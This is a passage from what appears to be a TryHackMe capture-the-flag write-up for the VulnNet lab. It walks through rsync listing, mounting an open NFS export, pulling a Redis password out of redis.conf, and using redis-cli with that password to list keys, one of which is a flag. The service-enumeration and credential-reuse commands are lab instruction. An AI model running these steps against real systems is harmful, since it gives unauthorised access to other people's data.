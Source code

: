 - list files ``rsync 10.10.114.111::``
- ``rsync -av --list-only rsync://10.10.114.111/files``
- we need authentication to login and once we have the auth we can access the files

##   port 2049 - nfs

- ``showmount -e 10.10.114.111``

```
Export list for 10.10.114.111:
/opt/conf *
```

- ``mkdir mount``
- ``sudo mount -t nfs 10.10.114.111: mount``

we can explore this share with ``tree``

- find the password within ``redis/redis.conf``

##   port 6379 - redis

Redis is an open source (BSD licensed), in-memory data structure store used as a database, cache, message broker, and streaming engine. [https://redis.io/docs/about/](https://redis.io/docs/about/)

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet]
└─$ nc -vn 10.10.114.111 6379                        
(UNKNOWN) [10.10.114.111] 6379 (redis) open
info
-NOAUTH Authentication required.
```

- We need authentication to access the database. We can use the requirepass that we found withing the .conf file "B65Hx562F@ggAZ@F"

- ``redis-cli -h 10.10.114.111``
- ``AUTH B65Hx562F@ggAZ@F``

We can try to dump the database. Inside Redis the databases are numbers startting from 0. We can find these in the ``# Keyspace`` 

```
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
10.10.114.111:6379> 
```

```
10.10.114.111:6379[1]> SELECT 0
OK
10.10.114.111:6379> KEYS *
1) "internal flag"
2) "int"
3) "marketlist"
4) "authlist"
5) "tmp"
```

